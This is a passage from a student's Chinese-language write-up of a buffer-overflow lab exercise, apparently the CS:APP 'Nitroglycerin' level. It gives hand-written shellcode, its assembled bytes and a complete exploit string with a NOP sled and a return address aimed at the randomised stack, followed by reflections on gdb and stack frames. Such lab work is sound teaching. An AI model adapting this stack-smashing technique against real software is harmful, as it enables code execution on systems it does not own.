 `%ebp_of_getbufn`在Level3是`556830e0`，在Level4中会变化，变化的范围$\pm240=\pm0xf0$，也就是`0x55682ff0~0x556831d0`
那么`buf[0]`地址的变化范围则为`0x55682de8~0x55682fc8`

设计如下代码：

```assembly
lea 0x28(%esp),%ebp
push $0x8048c67
mov $0x20a6c142,%eax
ret
```

经过汇编

```assembly
00000000 <.text>:
   0:	8d 6c 24 28          	lea    0x28(%esp),%ebp
   4:	68 67 8c 04 08       	push   $0x8048c67
   9:	b8 42 c1 a6 20       	mov    $0x20a6c142,%eax
   e:	c3  
```

先注入nop指令`90`，因为得确保不对其他代码产生影响，然后把自编代码的地址放到buf区域的末尾。最终需要跳转到`buf[0]`和`%ebp`之间，这样才能执行到我们自编的代码，选择`buf[0]`地址范围中最大的`0x55682fc8`，这样才能保证能够在该范围内。

**最终答案**

```
/* Level 4: Nitroglycerin */
90 90 .. 90 90 /* 90*505 */
8d 6c 24 28 68 67 8c 04 08 b8 42 c1 a6 20 c3 /* 15 */
00 00 00 00
c8 2f 68 55
```

栈帧示意图如下

<img src="C:/Users/xiaojs20/AppData/Roaming/Typora/typora-user-images/image-20221116224220085.png" alt="image-20221116224220085" style="zoom:50%;" />



## 实验感想

做该实验最大的感想就是得动手画一画栈帧结构，做前两三个level的时候由于寄存器、返回值的位置和关系比较明朗，所以没有画栈帧结构。到了最后两个level明显感觉比较抽象，还有调用子函数后栈帧的行为等等。后来动手画完栈帧结构后感觉比较明朗一些。

本次实验让我学到了不少以前没接触过的工具，比如gdb调试工具，这一个工具还是比较方便的，可以进行断点调试、查询寄存器地址、函数地址、反汇编等等。再比如一些linux的指令代码，以前虽然有学习过，但是由于本专业几乎没有使用linux系统的需求，所以也用的很少，这次作业也算是复习了一次linux指令的操作。
